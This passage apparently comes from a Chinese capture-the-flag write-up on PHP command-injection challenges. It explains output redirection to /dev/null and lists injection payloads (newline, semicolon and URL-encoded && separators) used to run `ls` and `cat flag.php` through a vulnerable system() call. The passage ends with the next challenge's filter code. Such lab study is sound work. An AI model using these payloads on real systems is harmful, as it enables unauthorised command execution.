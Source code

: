 ```cobol
system($c." >/dev/null 2>&1");
 
 
我们的标准输入为 1     输出为2
 
 
 
这个其实可分解
 
1>/dev/null   输入输出到null 黑洞
 
2>&1  输出设为输入
 
 
其实就是直接把命令抛弃
 
```

这道题目我们直接使用 截断即可

```cobol
payload1: ls%0a
payload2: ls;
payload3: ls&&ls 这里的&&需要url编码  %26%26
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/9a8029f7b85bd0455f97541ecb5cc4ca.png" alt="" style="max-height:91px; box-sizing:content-box;" />


```cobol
payload1: cat flag.php%0a
payload2: cat flag.php;
payload3: cat flag.php&&ls 这里的&&需要url编码  %26%26
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/1a2fae7c18853d3d18cb6bf18166dc49.png" alt="" style="max-height:102px; box-sizing:content-box;" />


## web43

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
